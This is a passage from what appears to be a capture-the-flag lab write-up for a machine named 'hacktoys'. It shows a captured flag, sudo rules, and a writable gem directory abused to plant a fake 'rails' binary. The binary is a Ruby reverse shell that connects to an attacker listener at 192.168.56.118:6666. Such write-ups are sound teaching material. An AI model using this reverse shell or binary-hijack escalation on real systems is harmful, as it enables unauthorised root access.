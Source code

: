 `cat ./user.txt`:
```
b075b24bdb11990e185c32c43539c39f ←
```

`sudo -l`:
```
Matching Defaults entries for dodi on hacktoys:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dodi may run the following commands on hacktoys:
    (ALL : ALL) NOPASSWD: /usr/local/bin/rvm_rails.sh ←
```

`ls -l /usr/local/bin/rvm_rails.sh`:
```
-rwxr-xr-x 1 root root 660 May 20 17:02 /usr/local/bin/rvm_rails.sh ←
```

`cat /usr/local/bin/rvm_rails.sh`:
```sh
#!/bin/bash
export rvm_prefix=/usr/local
export MY_RUBY_HOME=/usr/local/rvm/rubies/ruby-3.1.0
export RUBY_VERSION=ruby-3.1.0
export rvm_version=1.29.12
export rvm_bin_path=/usr/local/rvm/bin
export GEM_PATH=/usr/local/rvm/gems/ruby-3.1.0:/usr/local/rvm/gems/ruby-3.1.0@global
export GEM_HOME=/usr/local/rvm/gems/ruby-3.1.0 ←
export PATH=/usr/local/rvm/gems/ruby-3.1.0/bin:/usr/local/rvm/gems/ruby-3.1.0@global/bin:/usr/local/rvm/rubies/ruby-3.1.0/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/rvm/bin
export IRBRC=/usr/local/rvm/rubies/ruby-3.1.0/.irbrc
export rvm_path=/usr/local/rvm
exec /usr/local/rvm/gems/ruby-3.1.0/bin/rails "$@" ←
```

`ls -ld /usr/local/rvm/gems/ruby-3.1.0/bin`:
```
drwxrwsr-x 2 root rvm 4096 May 20 16:36 /usr/local/rvm/gems/ruby-3.1.0/bin ←
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`nc -lnvp 6666`:
```
listening on [any] 6666 ... ←
```

`vim ./rails`:
```sh
#!/usr/bin/env ruby
  
require 'socket'  
  
s = Socket.new 2,1  
s.connect Socket.sockaddr_in 6666, '192.168.56.118'  
  
[0,1,2].each { |fd| syscall 33, s.fileno, fd }  
exec '/bin/sh -i'
```
